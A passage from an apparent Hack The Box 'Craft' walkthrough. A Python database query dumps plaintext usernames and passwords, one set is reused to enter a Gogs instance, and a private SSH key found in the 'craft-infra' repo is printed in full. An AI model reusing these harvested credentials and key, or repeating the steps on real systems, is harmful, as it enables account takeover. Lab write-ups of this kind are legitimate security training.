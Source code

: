     with connection.cursor() as cursor:
        sql = "SELECT * FROM user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
{% endhighlight %}

<p>And just like that we now have a few more credentials to add to the list.</p>

{% highlight shell %}
/opt/app # python dbtest2.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, 
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, 
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
{% endhighlight %}

<p>With these credentials we can try a few different thing: SSH into the host and attempt to log back in to the <code>gogs</code> instance. SSH was unfortunately a bust but<code>gilfoyle</code> ends up being our lucky credential set and we manage to get in to the <code>gogs</code> instance. In addition to the previous <code>craft-api</code> repo we now also have access to the repo <code>craft-infra</code>. Let's poke around and see what additional information we can find!</p>

<p align="center">
<img src="{{ '/assets/htb-craft/user-gilfoyle.PNG' | relative_url }}">
</p>

<p>Immediately my attention was drawn to the <code>.ssh</code> folder. Sure enough we manage to get what seems like <code>gilfoyle</code>'s private key into the host.</p>

{% highlight shell %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDD9Lalqe
qF/F3X76qfIGkIAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDSkCF7NV2Z
F6z8bm8RaFegvW2v58stknmJK9oS54ZdUzH2jgD0bYauVqZ5DiURFxIwOcbVK+jB39uqrS
zU0aDPlyNnUuUZh1Xdd6rcTDE3VU16roO918VJCN+tIEf33pu2VtShZXDrhGxpptcH/tfS
RgV86HoLpQ0sojfGyIn+4sCg2EEXYng2JYxD+C1o4jnBbpiedGuqeDSmpunWA82vwWX4xx
lLNZ/ZNgCQTlvPMgFbxCAdCTyHzyE7KI+0Zj7qFUeRhEgUN7RMmb3JKEnaqptW4tqNYmVw
pmMxHTQYXn5RN49YJQlaFOZtkEndaSeLz2dEA96EpS5OJl0jzUThAAAD0JwMkipfNFbsLQ
B4TyyZ/M/uERDtndIOKO+nTxR1+eQkudpQ/ZVTBgDJb/z3M2uLomCEmnfylc6fGURidrZi
4u+fwUG0Sbp9CWa8fdvU1foSkwPx3oP5YzS4S+m/w8GPCfNQcyCaKMHZVfVsys9+mLJMAq
Rz5HY6owSmyB7BJrRq0h1pywue64taF/FP4sThxknJuAE+8BXDaEgjEZ+5RA5Cp4fLobyZ
3MtOdhGiPxFvnMoWwJLtqmu4hbNvnI0c4m9fcmCO8XJXFYz3o21Jt+FbNtjfnrIwlOLN6K
Uu/17IL1vTlnXpRzPHieS5eEPWFPJmGDQ7eP+gs/PiRofbPPDWhSSLt8BWQ0dzS8jKhGmV
ePeugsx/vjYPt9KVNAN0XQEA4tF8yoijS7M8HAR97UQHX/qjbna2hKiQBgfCCy5GnTSnBU
GfmVxnsgZAyPhWmJJe3pAIy+OCNwQDFo0vQ8kET1I0Q8DNyxEcwi0N2F5FAE0gmUdsO+J5
0CxC7XoOzvtIMRibis/t/jxsck4wLumYkW7Hbzt1W0VHQA2fnI6t7HGeJ2LkQUce/MiY2F
5TA8NFxd+RM2SotncL5mt2DNoB1eQYCYqb+fzD4mPPUEhsqYUzIl8r8XXdc5bpz2wtwPTE
cVARG063kQlbEPaJnUPl8UG2oX9LCLU9ZgaoHVP7k6lmvK2Y9wwRwgRrCrfLREG56OrXS5
elqzID2oz1oP1f+PJxeberaXsDGqAPYtPo4RHS0QAa7oybk6Y/ZcGih0ChrESAex7wRVnf
CuSlT+bniz2Q8YVoWkPKnRHkQmPOVNYqToxIRejM7o3/y9Av91CwLsZu2XAqElTpY4TtZa
hRDQnwuWSyl64tJTTxiycSzFdD7puSUK48FlwNOmzF/eROaSSh5oE4REnFdhZcE4TLpZTB
a7RfsBrGxpp++Gq48o6meLtKsJQQeZlkLdXwj2gOfPtqG2M4gWNzQ4u2awRP5t9AhGJbNg
MIxQ0KLO+nvwAzgxFPSFVYBGcWRR3oH6ZSf+iIzPR4lQw9OsKMLKQilpxC6nSVUPoopU0W
Uhn1zhbr+5w5eWcGXfna3QQe3zEHuF3LA5s0W+Ql3nLDpg0oNxnK7nDj2I6T7/qCzYTZnS
Z3a9/84eLlb+EeQ9tfRhMCfypM7f7fyzH7FpF2ztY+j/1mjCbrWiax1iXjCkyhJuaX5BRW
I2mtcTYb1RbYd9dDe8eE1X+C/7SLRub3qdqt1B0AgyVG/jPZYf/spUKlu91HFktKxTCmHz
6YvpJhnN2SfJC/QftzqZK2MndJrmQ=
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}
